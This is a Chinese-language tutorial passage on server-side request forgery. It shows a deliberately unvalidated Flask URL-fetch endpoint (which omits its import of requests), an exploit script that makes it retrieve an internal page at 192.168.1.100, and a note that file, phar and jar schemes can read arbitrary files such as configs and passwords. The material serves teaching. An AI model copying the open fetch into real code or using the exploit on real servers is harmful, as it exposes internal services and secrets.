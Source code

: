 ```plain
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route('/fetch_url', methods=['POST'])
def fetch_url():
    url = request.form.get('url')
    try:
        response = requests.get(url)
        return jsonify({'status': 'success', 'content': response.text})
    except Exception as e:
        return jsonify({'status': 'error', 'message': str(e)})

if __name__ == '__main__':
    app.run(debug=True)
```

1.  运行应用：`python app.py`
2.  此时，应用程序应该在`http://127.0.0.1:5000/`运行，并提供一个`/fetch_url`端点，用于接收URL参数。

现在，我们来模拟利用这个SSRF漏洞访问内部Web服务器。假设内部Web服务器的IP地址为`192.168.1.100`，我们想要访问的敏感页面路径为`/secret_page`。

1.  安装`requests`库：`pip install requests`
2.  创建一个名为`exploit.py`的文件，然后添加以下代码：

```plain
import requests

def exploit_ssrf(url):
    target_url = "http://192.168.1.100:80/secret_page"
    # 这里我们使用HTTP POST请求，将目标URL作为表单数据发送
    payload = {'url': target_url}
    response = requests.post(url, data=payload)

    if response.status_code == 200:
        print("Success: Retrieved content from internal web server")
        print(response.text)
    else:
        print("Failed: Unable to retrieve content from internal web server")

if __name__ == "__main__":
    # 替换为你在步骤3中找到的SSRF漏洞URL
    ssrf_url = "http://127.0.0.1:5000/fetch_url"
    exploit_ssrf(ssrf_url)
```

1.  运行脚本：`python exploit.py`
2.  如果一切正常，你应该能够看到从内部Web服务器获取的敏感页面内容。

通过 SSRF 进行文件读取：

SSRF 可以利用不同的协议（如`file`、`ldap`、`zlib`、`phar`、`tar`、`rar`用于 PHP，`jar` 用于 Java）来读取任意文件。这可以用于代码审计、访问配置文件或检索密码。
